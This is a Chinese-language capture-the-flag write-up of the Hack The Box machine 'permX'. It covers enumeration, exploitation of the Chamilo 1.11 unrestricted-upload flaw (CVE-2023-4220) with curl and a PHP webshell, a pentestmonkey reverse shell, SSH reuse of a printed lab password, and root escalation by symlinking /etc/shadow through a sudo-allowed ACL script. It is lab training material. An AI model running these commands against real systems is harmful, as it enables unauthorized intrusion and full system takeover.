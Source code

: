 ```yaml
---
description: Linux / Easy / chamilo 1.11
---
```


# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><img src="../../.gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><img src="../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><img src="../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (8).png" alt=""><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><img src="../../.gitbook/assets/19 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><img src="../../.gitbook/assets/20 (5).png" alt=""><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh服务，或许有重用密码的可能，但是用以上的凭证(chamilo:03F6lY3uXAP2bkW8)无法成功登录ssh服务，于是进行进一步信息枚举：

<figure><img src="../../.gitbook/assets/24 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

* 通过以上可知目标机器上的用户里并没有chamilo这个用户名，并且在/home目录中有个/mtz的目录无权访问，而/etc/passwd里正好有这个用户名，于是利用刚才的密码和mtz这个用户名进行ssh登录尝试，成功：

```bash
ssh mtz@10.129.76.98
03F6lY3uXAP2bkW8
```

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

* 经过初步的手动枚举，\`sudo -l\`发现了当前可以用sudo身份执行且无需密码的文件是/opt目录下的acl.sh文件，阅读该文件中的代码可得知该脚本是用于指定用户对特定文件的访问权限的，并且要求必须是在/home/mtz/目录下进行的：

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 由于该脚本可以修改/home/mtz/目录下的所有的文件权限，那么这就意味着我可以使用符号链接攻击将/etc/shadow文件映射到这里，修改其root密码即可完成提权：

```bash
# 当前所处的位置应就是/home/mtz/目录下：
ln -s / root
ls -l
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
echo 'root:$6$tPR3EAkzdPCSN2hT$fwoI8zEzWpKFxmw8JlLFjczHcd1sdLTXzIZuXUx6qwKdG3u2ynkEsDRxx/kf24WAI7gvgiqo.6r6qJ9uEecPs/:19742:0:99999:7:::' >/etc/shadow
su root
```

* 因为这里是需要修改/etc/passwd文件中的root的密码hash部分，所以，需要事先制作一个自定义的root账户的密码hash：

```bash
openssl passwd -6 fiii
```

<figure><img src="../../.gitbook/assets/28 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

<figure><img src="../../.gitbook/assets/29 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。
{% endhint %}

